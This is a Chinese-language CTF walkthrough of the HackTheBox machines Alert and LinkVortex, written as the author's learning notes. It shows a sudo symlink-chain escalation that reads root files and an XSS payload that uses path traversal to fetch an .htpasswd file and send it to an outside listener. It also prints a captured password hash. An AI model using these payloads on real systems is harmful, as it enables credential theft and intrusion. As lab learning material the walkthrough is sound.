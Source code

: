 # HTB Alert&LinkVortex&code


## 靶场链接

https://app.hackthebox.com/machines/Alert
https://app.hackthebox.com/machines/LinkVortex

## 笔记

HTB的靶场质量都很高，不想像其他的一样写很多没用的东西，主要写学到的东西和靶机概况

### whatweb

可以自动分析网站的响应并识别出使用的Web框架、CMS、服务器、JavaScript库等技术组件，
一般情况下`whatweb -v`输出的比较详细，而且好看，
WhatWeb 有 4 种扫描级别，通过数字 1~4 选择，默认为1： 

 1. stealthy 每个目标发送一次http请求，并且会跟随重定向
 2. unused 不可用（从2011年开始，此参数就是在开发状态）
3. aggressive 每个目标发送少量的http请求，这些请求时根据参数为1时结果确定的
4. heavy 每个目标会发送大量的http请求，会去尝试每一个插件
`whatweb -v -a 等级 域名`。

### git-dumper

类似githack，都可以用

### LinkVortex提权

```
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```
看看这个`.sh`文件是什么

```
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```
脚本设计用于检查一个文件（作为参数传递）是否是一个指向 PNG 文件的符号链接。如果是，它会检查符号链接的目标，并决定是删除它还是将其隔离。具体来说，如果符号链接指向敏感文件或目录（如 /etc 或 /root ），则会删除链接。否则，它将在指定的目录（/var/quarantined）中隔离链接。如果将 `CHECK_CONTENT` 变量设置为 true ，它还可能打印隔离文件的內容。

首先我们的思路就是读取root的flag，我们可以把这个`.txt`链接到`.png`上，但是直接链接会报错，我们在中间再转折一下

```
bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ touch link1.png
bob@linkvortex:~$ `ln -sf /root/root.txt link1.png`
bob@linkvortex:~$ touch link2.png
bob@linkvortex:~$ `ln -sf /home/bob/link1.png link2.png`
bob@linkvortex:~$ ls
link1.png  link2.png  user.txt
bob@linkvortex:~$ sudo bash /opt/ghost/clean_symlink.sh link2.png
Link found [ link2.png ] , moving it to quarantine
Content:
a2340eed30a7a15b1fb810a7945d2338
```

实际上这个就是个任意文件读取，我们当然可以去读取ssh的密钥去做到提权的效果

### XSS外带文件
>写这个就想起了ccb线下赛的XSS外带cookie，虽然不是web手，但是想起来这个没做出来就很难受，害

看看网页源代码

```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
        <h1>Markdown Viewer</h1><div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
          </div>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>


```
发现`md`文件写的东西都会在这里显现，典型的XSS漏洞.
突然想起来服务是Apache，那么就有`.htpasswd`用来存放密码，那么我们的思路就是去外带这个文件，去得到账号的密码，伟大的grok3会给我payload的
本地先开python的http服务(ccb的那个五分钟刷新一次不应该关的啊啊啊)

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.5:80/?file_content=" + encodeURIComponent(data));
  });
</script>
```

连接输入到`Contact Us`，本地接收到`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A` ，后面爆破就行了

### 端口转发
假设ssh进入一个靶机，`ps`发现还有端口在运行，但是`nmap`并没有发现，就可以尝试把端口转发出去，例如
`ssh -L 8080:127.0.0.1:8080 albert@alert.htb`，一般漏洞点在这个web里面
